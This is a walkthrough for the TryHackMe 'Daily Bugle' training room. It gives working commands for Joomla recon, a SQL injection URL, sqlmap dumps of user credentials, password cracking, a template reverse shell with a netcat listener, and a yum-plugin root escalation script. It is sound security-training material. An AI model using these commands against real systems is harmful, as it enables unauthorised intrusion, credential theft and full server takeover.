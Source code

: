 ```yaml
---
slug: daily-bugle-walkthrough
title: TryHackMe - Daily Bugle - Walkthrough
authors: bw
tags: [learning, daily-bugle, tryhackme, walkthrough]
---
```


This is a walkthrough for the [TryHackMe][thm] room: [Daily Bugle][daily-room]. Let’s get started!

# Deploy
Let’s start off with scanning the box! `nmap -sC -sV -oN nmap.txt <machine_ip>`

![d1](/src/img/thm/dailybugle/d1.png)

It looks like we have a webserver managed by Joomla, with a MySQL DB on the backend. Let’s visit the website!

![d2](/src/img/thm/dailybugle/d2.webp)

There is our first answer!

# Obtain user and root
From the nmap scan, we can see that it found some pages. However, before we do that, since we know it is **Joomla** let’s scan the site with `joomscan`. This can be found [here][joomscan]. This is a tool that will scan Joomla and tell is info and possible vulnerabilities.

We will run it with the following command: `perl joomscan.pl -u http://<machine_ip>`

![d3](/src/img/thm/dailybugle/d3.png)

The scan came back with a version number! After looking through the info, there isn’t much else there that we didn’t already know. Let’s search for vulnerabilities in that version.

`searchsploit joomla 3.7`

We see a few options. Let’s go with `42033`. This can be found [here][exdb]. The exploit suggests that the following URL is vulnerable:

`http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27`

Let’s navigate to that URL and check on our server.

![d4](/src/img/thm/dailybugle/d4.webp)

If you see on the bottom, we get a SQL error from the DB server. This means it is vulnerable! Let’s use SQLMap to exploit this (syntax can be found in exploit information)!

```bash
sqlmap -u "http://<machine_ip>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

Now that we have the various database names, let’s dump out the credentials. We want the `joomla` database.

```bash
sqlmap -u "http://<machine_ip>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' -C id,name,username,email,password,usertype,block,sendEmail,registerDate,lastvisitDate,activation,params --dump
```

![d5](/src/img/thm/dailybugle/d5.webp)

We have the hash! Let’s crack it with **John the Ripper**. Put the hash into a file. Then run `john` against a wordlist.

`john hash.txt --wordlist=/home/bw/PenTesting/Tools/SecLists/Passwords/Common-Credentials/rockyou.txt`

We cracked the password!

![d6](/src/img/thm/dailybugle/d6.png)

Login to Joomla. Let’s see what our permissions are. Navigate to **Users** and you can see that we have **Super User** permissions. Let’s edit a template to give us a shell! Navigate to **Templates > Templates > Protostar Details and Files > index.php**

Now add our reverse shell code (This can be found [here][php]):

![d7](/src/img/thm/dailybugle/d7.png)

Save the template. Start a `netcat` listener on the port specified: `nc -lnvp 1234`

Now select **Template Preview** and you should see a shell come up! We are the apache user, so we need to find user credentials to ssh in with.

Let’s `ls /home` to find a username. Then navigate to `/var/www/html` so we can get credentials.

Here we find the `configuration.php` file. We can gather credentials here:

![d8](/src/img/thm/dailybugle/d8.png)

SSH into the box and find the user flag!

![d9](/src/img/thm/dailybugle/d9.png)

Now we need to do some privilege escalation. We need to utilize `yum` for our privesc exploit. Let’s look at [GTFObins][gtfo]. Search for `yum`. Let’s use the 2nd option.

```bash
TF=$(mktemp -d)

cat >$TF/x<<EOF

[main]

plugins=1

pluginpath=$TF

pluginconfpath=$TF

EOF


cat >$TF/y.conf<<EOF

[main]

enabled=1

EOF


cat >$TF/y.py<<EOF

import os

import yum

from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE requires_api_version='2.1'

def init_hook(conduit):

   
os.execl('/bin/sh','/bin/sh')

EOF
```

`sudo yum -c $TF/x --enableplugin=y`

Now we can run: `whoami`. We are root!!!

Let’s get the flag!

![d10](/src/img/thm/dailybugle/d10.png)

# Review
Wow! This was definitely a more difficult box than I’ve done so far on THM. It was such a fun challenge and I’m glad that it put up a fight! I learned some new tools like joomscan and utilized the tried and true PHP reverse shell. Overall, this was a great room to challenge yourself!

# References
[TryHackMe][thm] | [Daily Bugle Room][daily-room] | [Joomscan][joomscan] | [Exploit-DB: 42033][exdb] | [PHP Reverse Shell][php] | [GTFObins][gtfo]

[thm]: https://tryhackme.com
[daily-room]: https://tryhackme.com/r/room/dailybugle
[joomscan]: https://github.com/OWASP/joomscan
[exdb]: https://www.exploit-db.com/exploits/42033
[php]: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
[gtfo]: https://gtfobins.github.io